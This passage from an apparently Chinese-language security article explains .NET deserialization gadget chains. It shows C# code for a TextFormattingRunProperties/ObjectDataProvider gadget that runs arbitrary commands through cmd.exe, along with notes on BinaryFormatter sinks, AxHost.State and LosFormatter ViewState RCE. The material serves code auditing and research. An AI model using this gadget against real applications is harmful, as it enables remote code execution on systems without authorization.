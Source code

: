 ```
            psi.FileName = "cmd.exe";
            psi.Arguments = $"/c {cmd}";
            StringDictionary dict = new StringDictionary();
            psi.GetType().GetField("environmentVariables", BindingFlags.Instance | BindingFlags.NonPublic).SetValue(psi, dict);
            Process p = new Process();
            p.StartInfo = psi;
            ObjectDataProvider odp = new ObjectDataProvider();
            odp.MethodName = "Start";
            odp.IsInitialLoadEnabled = false;
            odp.ObjectInstance = p;

            return XamlWriter.Save(odp);
        }
        protected TextFormattingRunPropertiesMarshal(SerializationInfo info, StreamingContext context)
        {
        }
        string _xaml;
        public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            Type typeTFRP = typeof(TextFormattingRunProperties);
            info.SetType(typeTFRP);
            info.AddValue("ForegroundBrush", _xaml);
        }
        public TextFormattingRunPropertiesMarshal(string cmd)
        {
            _xaml = gadget(cmd);
        }
        public TextFormattingRunPropertiesMarshal()
        {
            _xaml = gadget("calc");
        }
    }
}
```

##### AxHostState+TextFormattingRunProperties

**调用的类：**State+TextFormattingRunProperties+ObjectDataProvider

**Sink关键点**：`BinaryFormatter.Deserialize`

**思路**：在System.Windows.Forms.AxHost.State类的反序列化构造函数中，调用了this.propBag.Read，PropertyBagBinary字段的值会被BinaryFormatter形式反序列化

#### 代码审计视角

BinaryFormatter不需要type，所以很容易出现反序列化攻击

### LosFormatter和ObjectStateFormatter

LosFormatter一般用于序列化存储视图流状态，多用于Web窗体，如ViewState。LosFormatter封装在System.Web.dll中，命名空间为System.Web.UI，使用LosFormatter反序列化不信任的数据会造成RCE。
